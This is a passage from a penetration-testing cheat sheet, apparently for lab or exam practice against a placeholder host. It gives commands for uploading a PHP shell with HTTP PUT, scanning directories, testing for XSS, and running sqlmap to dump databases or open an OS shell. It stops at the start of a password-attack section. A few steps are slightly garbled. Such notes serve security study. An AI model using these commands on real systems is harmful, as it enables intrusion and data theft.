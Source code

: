     nc 10.10.10.10 80
    OPTIONS / HTPP/1.0

You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

    wc -m shell.php
    x shell.php

    PUT /shell.php
    Content-type: text/html
    Content-length: x
    Directory and File Scanning

My preferred tool at the moment is dirsearch, I find it to to be fast and easy to use. For a more in depth scan, use gobuster and include a large wordlist.

    dirsearch.py -u http://10.10.10.10 -e *
    gobuster -u 10.10.10.10 -w /path/to/wordlist.txt

Advanced Google Searches
Not really necessary, but useful to know all the same.

    site:
    intitle:
    inurl:
    filetype:
    AND, OR, &, |, -

### Cross Site Scripting (XSS)
The general steps I use to find and test XSS are as follows:

1. Find a reflection point
2. Test with <i> tag
3. Test with HTML/JavaScript code (alert('XSS'))

- Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
- Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

### SQLMap
    sqlmap -u http://10.10.10.10 -p parameter
    sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
    sqlmap -u http://10.10.10.10 --os-shell
    sqlmap -u http://10.10.10.10 --dump

## System Attacks
The other type of ‘attack’ you will be doing are system attacks. Make sure you understand why/how to brute force types of services and hashes, as well as basic metasploit usage.

### Password Attacks
#### Unshadow
This prepares a file for use with John the Ripper
    